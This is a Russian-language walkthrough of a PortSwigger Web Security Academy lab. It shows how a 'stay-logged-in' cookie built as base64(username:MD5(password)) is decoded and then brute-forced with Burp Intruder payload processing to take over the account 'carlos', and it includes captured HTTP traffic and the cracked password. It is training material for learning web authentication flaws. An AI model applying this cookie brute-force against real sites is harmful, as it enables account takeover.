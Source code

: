
Лаборатория позволяет пользователям оставаться в системе даже после закрытия сеанса браузера. Файл cookie, используемый для обеспечения этой функции, уязвим для перебора.

## Вводные данные

- Наша учётка `wiener:peter`
- Имя жертвы `carlos`
- [Пароли кандидатов](https://portswigger.net/web-security/authentication/auth-lab-passwords)

# Разведка

- Так как дело связано с авторизацией то я сразу включу Burp

#### 1. При аутентификации есть вариант "оставаться в системе"

##### 1.1 Без включение данного варианта запрос выглядит
```
POST /login HTTP/2
Host: 0a890000049e065181b6e8af00e30008.web-security-academy.net
Cookie: session=XLoshpOEH7451LelyjdA4HSmMgkWLwqk; stay-logged-in=
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0a890000049e065181b6e8af00e30008.web-security-academy.net
Referer: https://0a890000049e065181b6e8af00e30008.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers

username=wiener&password=peter
```
1.1.1 Переадрисация
```
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: session=KzCnhWnUVIEzVMF498mmynZxiBdIL1zw; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

1.1.2 Ответ
```
GET /my-account?id=wiener HTTP/2
Host: 0a890000049e065181b6e8af00e30008.web-security-academy.net
Cookie: session=KH7En8J2rwmCJv10otYxsY2dbSYMnkyK; stay-logged-in=
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a890000049e065181b6e8af00e30008.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers
```

##### 1.2 С включением данного функционала
```
POST /login HTTP/2
Host: 0a890000049e065181b6e8af00e30008.web-security-academy.net
Cookie: session=jKx9k5m3V5AgQidmZWqNwJi75m7kCDl3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a890000049e065181b6e8af00e30008.web-security-academy.net
Referer: https://0a890000049e065181b6e8af00e30008.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers

username=wiener&password=peter&stay-logged-in=on
```
1.2.1 Переадрисация 
```
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; Expires=Wed, 01 Jan 3000 01:00:00 UTC
Set-Cookie: session=tzePg9Dt8OmMk65ZYDMNvaj8b7FiG247; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
1.2.2 Ответ 
```
GET /my-account?id=wiener HTTP/2
Host: 0a890000049e065181b6e8af00e30008.web-security-academy.net
Cookie: session=twVYsfSXtzS3U239eFwQKpp9RL6N1CRV; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a890000049e065181b6e8af00e30008.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers
```

Итого что мы видим 
- `stay-logged-in=on` при вкл. функции и вообще нет если не вкл.
- `stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw` при вкл. функции запомнить меня

#### 2. Проверка функционал `stay-logged-in`

При проверке функционала выявлено что это кодировка Base64 и перевод 
из `d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw` 
в `wiener:51dc30ddc473d43a6011e9ebba6ca770` 

Предположительно это мб какая то кодировка пароля, попробуем и её декодировать, chatgpt предположил что это MD5, проверим. И он прав **(не зная пароля можно использовать CrackStation)**
![[Pasted image 20250121124744.png]]

#### Итого

При "оставаться в системе" у нас появляется stay-logged-in он равен в кодировке base64 ( username:MD5(password) )

- Для авторизации нам нужно знать ник и пароль
- Обойти блокировку аккаунта при 3 неверных попыток блокировка 1 минута

# Атака

- Проверим есть ли защит от брута на stay-logged-in

1. По пути /my-account?id=жертва 
```
GET /my-account?id=wiener HTTP/2
Host: 0a890000049e065181b6e8af00e30008.web-security-academy.net
Cookie: session=twVYsfSXtzS3U239eFwQKpp9RL6N1CRV; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a890000049e065181b6e8af00e30008.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers
```
Мы в stay-logged начинаем брутить алгоритмом шифрования 
- При верных данных ответ 200 иначе 302 и переадресация на login
- кидаем в интрудер 
- Нам надо преобразовать в данные carlos:MD5password. 
	В intruder "Payload processing" 
	Hash->MD5 
	AddPrefix "carlos:"
	Encode base 64
![[Pasted image 20250121131712.png]]


# Ответ
![[Pasted image 20250121132020.png]]

Y2FybG9zOjA5ZjgzMTZlMjk2NDlhN2Y3OTVmNDE0YmEzODYwZmMw
carlos:09f8316e29649a7f795f414ba3860fc0
carlos:dallas



